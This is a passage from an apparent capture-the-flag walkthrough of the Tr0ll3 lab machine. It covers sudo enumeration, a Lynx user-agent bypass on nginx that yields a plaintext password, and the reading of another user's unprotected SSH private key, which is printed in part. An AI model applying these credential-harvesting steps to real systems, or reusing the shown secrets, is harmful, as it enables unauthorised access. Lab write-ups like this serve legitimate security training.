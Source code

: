If we look at that file, we see it does exactly what we saw earlier, printing the string in an infinite loop:

```
wytshadow@Tr0ll3:~$ cat /lol/bin/run.sh
#!/bin/sh
while true;do echo "iM Cr@zY L1k3 AAA LYNX"; done
```

We don't have permissions to further enumerate the /lol directory. I checked the sudo privileges, and this user can start an Nginx server:

```
User wytshadow may run the following commands on Tr0ll3:
    (root) /usr/sbin/service nginx start
```

The server is listening on port 8080, but we get a 403 Forbidden error when trying to access it.

```
roto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -
```

If we look in the Nginx configuration files, we find the server expects a user agent of Lynx, and now it all makes sense. Lynx is a CLI browser.

```
wytshadow@Tr0ll3:~$ cat /etc/nginx/sites-available/default
if ($http_user_agent !~ "Lynx*"){
    return 403;
```

I already had it on Kali, so I used it to browse to the newly opened web server and was handed the credentials for the genphlux user:

```
lynx http://192.168.159.143:8080/
genphlux:HF9nd0cR!
```

## genphlux - Unprotected SSH keys

Inside the home directory we immediately find the SSH private key of the maleus user!

```
genphlux@Tr0ll3:~$ cat maleus
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwz5Hwer48U1t/Qi9JveuO+Z7WQlnmhOOs/2pZ0he/OyVsEFv
DsGib1wu/N8t+7h9JZK9x2GL33TXQBVCy6TxES90F1An+2DSza6lJPCyhcgK/DEp
yxSVt32A+lFo+PQJV6QYZlpRkek0MjUw5y/E5qZwdBypC55C4QzgQBN3+Lnuhuk4
u52xcK9/6/2N7JZCNYA21Tp1Uy9mty/65IT7OwKJd2rXp3O6rZYTD/vPl+Rt/LtN
gA1DbDODq0NCmvcrZL+SafSj+MABA3LCERw01gA4RMdyxJU6hVfjeSKOdwDQOGWe
eAVCL2GR/frwyf+rfN1kbpdw/RGXWWwVANMcaQIDAQABAoIBAGNudFztrZo2NK2I
pcwSl0kqN+dAQuLU0vgXVw6ibL2iPxlkOYrqUi8kY0mk32YyrolUEhJYO0Ox3W1l
Zn8PoTV/VUAKMlJzHOhi6PfHHSPEnNOSthYWhajM4cKZczxWC+v2RfbaSHBms45e
SGl0inJskRiRAAZKswSp6gq334FrS6Dwy1tiKvzCfR3kLQghV5U/PhFZCsq3xvAw
eXPx2toNtU2gYSGrKWTep+nAKM1neBxeZAujYuN4xJ5/Th2y0pyTvX9WEgzKPJ/G
PlYZYCUAKPCbabYSuZckjeiN1aS52AIFedECBfAIezOr08Wx/bI/xCOgBxrQgPrK
kRvlOYECgYEA5eCIEfdLhWdg3ltadYE0O5VAoXKrbxYWqSyw1Eyeqj0N1qD9Rsvg
jIQJazV5JcVBIF54f/jlCJozR5s5AELrY0Z/krea1lF5ecOSUQE3tp94298xzO3g
7BBe3g6pD56Cya/Vo0+YVQmAnBHLh6QIYvUUXXN2IyceT8fhEx5JA+sCgYEA2W4z
KKMVAdPxKcjVks1zdGmVlj1RsUkakYuLWV3jQe2w1naJrc37Khy5eWZaRJhXqeBb
1cvTMa+r/BF7jvItxglWoBJqXDxKI0a6KqWtloZL2ynoaBkAhR2btob6nSN63Bpg
ZYJKY1B5yYbDHK4k6QT7atn2g6DAv/7sW6skj/sCgYA16WTAIek6TjZvr6kVacng
N27C7mu6T8ncvzhxcc68SjlWnscHtYTiL40t8YqKCyrs9nr4OF0umUtxfbvujcM6
syv0Ms9DeDQvFGjaSpjQYbIsjrnVP+zCMEyvc2y+1wQBXRWTiXVGbEYXVC0RkKzO
2H+AMzX/pIr9Vvk4TJ//JQKBgFNJcy9NyO46UVbAJ49kQ6WEDFjQhEp0xkiaO3aw
EC1g7yw3m+WH0X4AIsvt+QXtlSbtWkA7I1sU/7w+tiW7fu0tBpGqfDN4pK1+mjFb
5XKTXttE4lF9wkU7Yjo42ib3QEivkd1QW05PtVcM2BBUZK8dyXDUrSkemrbw33j9
```